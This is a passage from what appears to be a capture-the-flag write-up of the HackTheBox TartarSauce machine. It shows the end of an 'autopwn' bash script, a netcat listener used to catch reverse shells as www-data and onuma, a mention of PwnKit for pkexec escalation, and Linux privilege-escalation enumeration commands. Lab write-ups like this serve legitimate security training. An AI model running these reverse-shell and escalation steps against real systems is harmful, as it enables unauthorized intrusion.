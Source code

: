 ```bash
  esac
done

if [ $parameter_counter -eq 0 ]; then
  help_panel
else
  engageBox
fi
```

```bash
nc -nlvp 443
./autopwn.sh -u www-data
```

> **Victime Machine**:

```bash
whoami
```

> **Attacker Machine**:

```bash
nc -nlvp 443
./autopwn.sh -u onuma
```

> **Victime Machine**:

```bash
whoami
# :)
```

<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I can now continue with the enumeration of the system, but now with the new compromised account (**onuma**). With `find` I find two binaries with **SUID** permissions, but I'm pretty sure they are **not the intended path** (I'm mainly referring to `pkexec` that would allow me to escalate privileges using **[PwnKit](https://github.com/ly4k/PwnKit){:target="_blank"}**), so I continue my investigation by cron jobs, special permissions, locally open ports and suspicious processes, but I don't find much. It's time to create a small script to analyze if there are any processes running in the background that deserve my attention. After running the script and waiting patiently for a while I get very interesting results, there is a process (which belongs to the **root** user) related to a scheduled task that runs a script and is also running the `tar` binary impersonating the user **onuma** and is responsible for making a backup of the **`/var/www/html`** folder.

```bash
find \-perm -4000 2>/dev/null
getcap / -r 2>/dev/null
crontab -l
sudo -l
netstat -nat
ps -fawwx
touch procmon.sh
chmod +x procmon.sh
nano !$
cat !$
```
